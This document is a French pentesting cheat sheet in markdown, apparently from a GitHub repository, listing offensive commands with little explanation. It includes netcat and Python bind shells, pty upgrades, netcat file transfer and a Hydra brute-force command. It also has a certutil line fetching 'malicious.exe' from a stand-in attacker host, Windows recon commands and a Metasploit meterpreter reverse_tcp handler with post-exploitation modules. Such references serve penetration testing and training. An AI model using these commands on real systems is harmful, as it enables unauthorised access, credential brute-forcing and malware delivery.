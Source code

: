 <h2>Unix</h2>
Accorder les permissions pour un user specifique</br>
```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:</br>
```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:</br>
```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
```
 nc -lvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port</br>
<h4>Pour avoir un shell pty :</h4>
```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut
```
 CTRL-Z
 stty raw -echo
 fg
```

Envoi fichier avec netcat :</br>
```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

Hydra:</br>
http-auth bute force</br>
```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

XfreeRDP:</br>
```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```
<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>
certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe le wget en cmd<br/>
certutil.exe -decode bad.txt bad.exe le base64 decode en cmd</br>

<h3>Powershell</h3>
get-WmiObject -class Win32_Share</br>


<h2>Metasploit</h2>
Handler :</br>
```
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z
```

use post/multi/recon/local_exploit_suggester</br>

run post/windows/manage/migrate pour changer sur un processus plus fiable</br>

